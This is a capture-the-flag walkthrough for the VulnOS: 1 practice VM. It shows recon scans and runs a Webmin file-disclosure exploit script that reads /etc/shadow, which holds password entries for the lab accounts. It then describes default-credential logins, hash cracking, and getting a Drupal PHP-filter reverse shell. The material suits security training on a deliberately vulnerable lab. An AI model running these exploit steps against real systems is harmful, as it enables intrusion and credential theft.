

# VulnOS: 1 Walkthrough


---

If you're interested to try it out, more details here: [https://www.vulnhub.com/entry/vulnos-1,60/](https://www.vulnhub.com/entry/vulnos-1,60/)

> Welcome to VulnOS !
>
> This is my first vulnerable target I made because I want to give back something to the community. Big up for the community that made things possible!!!
>
> Your goal is to get root and find all the vulnerabilities inside the OS ! It is a ubuntu server 10.04 LTS (that's been made very buggy!!!!) DO NOT USE This Box in a production environment!!!!!!! It's a VM thas has been made with Virtualbox 4.3.8 - so it's in the .vdi format.

---

# Stage 1: Reconnaissance

Tools used:
* nmap
* netcat

First of all, obligatory network scan:

```
root@kali:~# nmap -n -sV 192.168.1.100 -T4

Starting Nmap 7.40 ( https://nmap.org ) at xxxx-xx-xx xx:xx EDT
Nmap scan report for 192.168.1.100
Host is up (0.00041s latency).
Not shown: 977 closed ports
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 5.3p1 Debian 3ubuntu7 (Ubuntu Linux; protocol 2.0)
23/tcp    open  telnet      Linux telnetd
25/tcp    open  smtp        Postfix smtpd
53/tcp    open  domain      ISC BIND 9.7.0-P1
80/tcp    open  http        Apache httpd 2.2.14 ((Ubuntu))
110/tcp   open  pop3        Dovecot pop3d
111/tcp   open  rpcbind     2 (RPC #100000)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp   open  imap        Dovecot imapd
389/tcp   open  ldap        OpenLDAP 2.2.X - 2.3.X
445/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp   open  exec        netkit-rsh rexecd
513/tcp   open  login?
514/tcp   open  tcpwrapped
901/tcp   open  http        Samba SWAT administration server
993/tcp   open  ssl/imap    Dovecot imapd
995/tcp   open  ssl/pop3    Dovecot pop3d
2000/tcp  open  sieve       Dovecot timsieved
2049/tcp  open  nfs         2-4 (RPC #100003)
3306/tcp  open  mysql       MySQL 5.1.73-0ubuntu0.10.04.1
6667/tcp  open  irc         IRCnet ircd
8080/tcp  open  http        Apache Tomcat/Coyote JSP engine 1.1
10000/tcp open  http        MiniServ 0.01 (Webmin httpd)
MAC Address: 08:00:27:43:06:19 (Oracle VirtualBox virtual NIC)
Service Info: Hosts:  VulnOS.home, irc.localhost; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.77 seconds

root@kali:~# nc 192.168.1.100 512
Where are you?
```

Woah that's a lot of services to take in. Browsing the apache website gave me this:


There's a tomcat webserver on port 8080 but it points to the default page, a Webmin login page on port 10000, and http auth login on port 901. That's 4 web services right off the bat!



---

# Stage 2: Enumeration

Tools used:
* nikto
* searchsploit

```
root@kali:~# nikto -host http://192.168.1.100
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.100
+ Target Hostname:    192.168.1.100
+ Target Port:        80
+ Start Time:         xxxx-xx-xx xx:xx:xx (GMT)
---------------------------------------------------------------------------
+ Server: Apache/2.2.14 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, inode: 1062203, size: 745, mtime: Sat Mar 29 20:35:52 2014
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.2.14 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.html
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3268: /doc/: Directory indexing found.
+ OSVDB-48: /doc/: The /doc/ directory is browsable. This may be /usr/doc.
+ OSVDB-3268: /imgs/: Directory indexing found.
+ OSVDB-3092: /imgs/: This might be interesting...
+ Retrieved x-powered-by header: PHP/5.3.2-1ubuntu4.23
+ OSVDB-3092: /phpmyadmin/changelog.php: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ OSVDB-3093: /.htaccess: Contains configuration and/or authorization information
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ Cookie 5d89dac18813e15aa2f75788275e3588 created without the httponly flag
+ /phpldapadmin/: Admin login page/section found.
+ Cookie PPA_ID created without the httponly flag
+ /phppgadmin/: Admin login page/section found.
+ /phpmyadmin/: phpMyAdmin directory found
+ OSVDB-3092: /phpmyadmin/Documentation.html: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ 8497 requests: 0 error(s) and 23 item(s) reported on remote host
+ End Time:           xxxx-xx-xx xx:xx:xx (GMT) (23 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

root@kali:~# nikto -host http://192.168.1.100:8080
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.100
+ Target Hostname:    192.168.1.100
+ Target Port:        8080
+ Start Time:         xxxx-xx-xx xx:xx:xx (GMT)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ Server leaks inodes via ETags, header found with file /, fields: 0xW/1887 0x1394395959000 
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS 
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ /: Appears to be a default Apache Tomcat install.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ Cookie JSESSIONID created without the httponly flag
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
+ /manager/html: Default Tomcat Manager / Host Manager interface found
+ /docs/: Tomcat Documentation found
+ /manager/status: Default Tomcat Server Status interface found
+ 7839 requests: 0 error(s) and 14 item(s) reported on remote host
+ End Time:           xxxx-xx-xx xx:xx:xx (GMT) (18 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Nikto on port 80 tells us a few things:
* There is a phpmyadmin (MySQL Service is available)
* There is a phppgadmin (Postgresql Service is available)
* There is a phpldapadmin (LDAP Service is available)
* `/doc/` shows a listing of directories. nikto suggests that it is mapped to `/usr/doc`.

Nikto on port 8080 tells us that:
* It is a default tomcat install
* `PUT` and `DELETE` methods are allowed. Can we upload our reverse shell this way?

Trying my luck as I did not have a way to tell the version of the webmin application, I used `searchsploit` to look for interesting exploits on Kali to try out:

```
root@kali:~# searchsploit webmin
------------------------------------------------------------------------------------------------------------------ ----------------------------------
 Exploit Title                                                                                                    |  Path
                                                                                                                  | (/usr/share/exploitdb/)
------------------------------------------------------------------------------------------------------------------ ----------------------------------
DansGuardian Webmin Module 0.x - 'edit.cgi' Directory Traversal                                                   | exploits/cgi/webapps/23535.txt
Webmin - Brute Force / Command Execution                                                                          | exploits/multiple/remote/705.pl
Webmin 0.9x / Usermin 0.9x/1.0 - Unauthenticated Access Session ID Spoofing                                       | exploits/linux/remote/22275.pl
Webmin 0.x - 'RPC' Privilege Escalation                                                                           | exploits/linux/remote/21765.pl
Webmin 0.x - Code Input Validation                                                                                | exploits/linux/local/21348.txt
Webmin 1.5 - Brute Force / Command Execution                                                                      | exploits/multiple/remote/746.pl
Webmin 1.5 - Web Brute Force (CGI)                                                                                | exploits/multiple/remote/745.cgi
Webmin 1.580 - '/file/show.cgi' Remote Command Execution (Metasploit)                                             | exploits/unix/remote/21851.rb
Webmin 1.850 - Multiple Vulnerabilities                                                                           | exploits/cgi/webapps/42989.txt
Webmin 1.x - HTML Email Command Execution                                                                         | exploits/cgi/webapps/24574.txt
Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Disclosure (PHP)                                                | exploits/multiple/remote/1997.php
Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Disclosure (Perl)                                               | exploits/multiple/remote/2017.pl
phpMyWebmin 1.0 - 'target' Remote File Inclusion                                                                  | exploits/php/webapps/2462.txt
phpMyWebmin 1.0 - 'window.php' Remote File Inclusion                                                              | exploits/php/webapps/2451.txt
webmin 0.91 - Directory Traversal                                                                                 | exploits/cgi/remote/21183.txt
------------------------------------------------------------------------------------------------------------------ ----------------------------------
root@kali:~# cp /usr/share/exploitdb/exploits/multiple/remote/2017.pl .
root@kali:~# perl 2017.pl 192.168.1.100 10000 /etc/passwd 0
WEBMIN EXPLOIT !!!!! coded by UmZ!
Comments and Suggestions are welcome at umz32.dll [at] gmail.com
Vulnerability disclose at securitydot.net
I am just coding it in perl 'cuz I hate PHP!
Attacking 192.168.1.100 on port 10000!
FILENAME:  /etc/passwd

 FILE CONTENT STARTED
 -----------------------------------
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
landscape:x:102:108::/var/lib/landscape:/bin/false
vulnosadmin:x:1000:1000:vulnosadmin,,,:/home/vulnosadmin:/bin/bash
sysadmin:x:1001:1001::/home/sysadmin:/bin/sh
webmin:x:1002:1002::/home/webmin:/bin/sh
hackme:x:1003:1003::/home/hackme:/bin/sh
sa:x:1004:1004::/home/sa:/bin/sh
stupiduser:x:1005:1005::/home/stupiduser:/bin/sh
messagebus:x:103:112::/var/run/dbus:/bin/false
distccd:x:104:65534::/:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
openldap:x:106:113:OpenLDAP Server Account,,,:/nonexistent:/bin/false
ftp:x:1006:1006::/home/ftp:/bin/sh
mysql:x:107:115:MySQL Server,,,:/var/lib/mysql:/bin/false
telnetd:x:108:116::/nonexistent:/bin/false
bind:x:109:117::/var/cache/bind:/bin/false
postgres:x:110:118:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
postfix:x:111:119::/var/spool/postfix:/bin/false
dovecot:x:112:121:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
tomcat6:x:113:122::/usr/share/tomcat6:/bin/false
statd:x:114:65534::/var/lib/nfs:/bin/false
snmp:x:115:123::/var/lib/snmp:/bin/false
nagios:x:116:124::/var/lib/nagios:/bin/false
openerp:x:117:125:Open ERP server,,,:/home/openerp:/bin/false

 -------------------------------------
```

Looks like this random arbitrary file disclosure exploit script worked! From this, we can surmise that the version of webmin is < 1.29. Let's try a few more interesting files:

```
root@kali:~# perl 2017.pl 192.168.1.100 10000 /etc/shadow 0
WEBMIN EXPLOIT !!!!! coded by UmZ!
Comments and Suggestions are welcome at umz32.dll [at] gmail.com
Vulnerability disclose at securitydot.net
I am just coding it in perl 'cuz I hate PHP!
Attacking 192.168.1.100 on port 10000!
FILENAME:  /etc/shadow

 FILE CONTENT STARTED
 -----------------------------------
root:*:16137:0:99999:7:::
daemon:*:16137:0:99999:7:::
bin:*:16137:0:99999:7:::
sys:*:16137:0:99999:7:::
sync:*:16137:0:99999:7:::
games:*:16137:0:99999:7:::
man:*:16137:0:99999:7:::
lp:*:16137:0:99999:7:::
mail:*:16137:0:99999:7:::
news:*:16137:0:99999:7:::
uucp:*:16137:0:99999:7:::
proxy:*:16137:0:99999:7:::
www-data:*:16137:0:99999:7:::
backup:*:16137:0:99999:7:::
list:*:16137:0:99999:7:::
irc:*:16137:0:99999:7:::
gnats:*:16137:0:99999:7:::
nobody:*:16137:0:99999:7:::
libuuid:!:16137:0:99999:7:::
syslog:*:16137:0:99999:7:::
landscape:*:16137:0:99999:7:::
vulnosadmin:$6$SLXu95CH$pVAdp447R4MEFKtHrWcDV7WIBuiP2Yp0NJTVPyg37K9U11SFuLena8p.xbnSVJFAeg1WO28ljNAPrlXaghLmo/:16137:0:99999:7:::
sysadmin:admin:16137:0:99999:7:::
webmin:webmin:16137:0:99999:7:::
hackme:hackme:16137:0:99999:7:::
sa:password1:16137:0:99999:7:::
stupiduser:stupiduser:16137:0:99999:7:::
messagebus:*:16137:0:99999:7:::
distccd:*:16137:0:99999:7:::
sshd:*:16138:0:99999:7:::
openldap:!:16138:0:99999:7:::
ftp:!:16138:0:99999:7:::
mysql:!:16138:0:99999:7:::
telnetd:*:16138:0:99999:7:::
bind:*:16138:0:99999:7:::
postgres:*:16138:0:99999:7:::
postfix:*:16138:0:99999:7:::
dovecot:*:16138:0:99999:7:::
tomcat6:*:16138:0:99999:7:::
statd:*:16138:0:99999:7:::
snmp:*:16138:0:99999:7:::
nagios:!:16140:0:99999:7:::
openerp:*:16140:0:99999:7:::

 -------------------------------------

root@kali:~# perl 2017.pl 192.168.1.100 10000 /etc/webmin/miniserv.conf 0
WEBMIN EXPLOIT !!!!! coded by UmZ!
Comments and Suggestions are welcome at umz32.dll [at] gmail.com
Vulnerability disclose at securitydot.net
I am just coding it in perl 'cuz I hate PHP!
Attacking 192.168.1.100 on port 10000!
FILENAME:  /etc/webmin/miniserv.conf

 FILE CONTENT STARTED
 -----------------------------------
port=10000
root=/var/www/webmin-1.280
mimetypes=/var/www/webmin-1.280/mime.types
addtype_cgi=internal/cgi
realm=Webmin Server
logfile=/var/webmin/miniserv.log
errorlog=/var/webmin/miniserv.error
pidfile=/var/webmin/miniserv.pid
logtime=168
ppath=
ssl=0
env_WEBMIN_CONFIG=/etc/webmin
env_WEBMIN_VAR=/var/webmin
atboot=1
logout=/etc/webmin/logout-flag
listen=10000
denyfile=\.pl$
log=1
blockhost_failures=5
blockhost_time=60
syslog=1
session=1
userfile=/etc/webmin/miniserv.users
keyfile=/etc/webmin/miniserv.pem
passwd_file=/etc/shadow
passwd_uindex=0
passwd_pindex=1
passwd_cindex=2
passwd_mindex=4
passwd_mode=0
preroot=mscstyle3
passdelay=1

root@kali:~# perl 2017.pl 192.168.1.100 10000 /etc/webmin/miniserv.users 0
WEBMIN EXPLOIT !!!!! coded by UmZ!
Comments and Suggestions are welcome at umz32.dll [at] gmail.com
Vulnerability disclose at securitydot.net
I am just coding it in perl 'cuz I hate PHP!
Attacking 192.168.1.100 on port 10000!
FILENAME:  /etc/webmin/miniserv.users

 FILE CONTENT STARTED
 -----------------------------------
admin:$1$XXXXXXXX$2oMWkcwYECUmHgNGhh8Pf1:0

 -------------------------------------
```

Seems useful! Now onto phpmyadmin. The login page is protected by a very weak password: `root:toor`. Looking at the databases available, it seems like there are many web applications hosted at first glance, but the first URL I tried is `/drupal6`. There are many other attack vectors, including `DVWA`, `Multillidae` and more.


We find another login form at the side, and since we have full access to the database via phpmyadmin, I'll go ahead and reverse the md5 hash on the users table:


The password for user `drupal6` is `drupal6`. Why am I not surprised. With a successful login, I then proceed to go to `Administer > Modules > PHP Filter (checked)` to enable PHP expressions.


Using this vector, I managed to get a reverse shell. Looking at `/home` reveals a few interesting users. `vulnosadmin` has a folder containing the vsftpd 2.3.4 source code, `sysadmin` has a file called `user_bankaccounts.ods` that when opened, reveals a few users, their bank account no. and PIN code with their balances.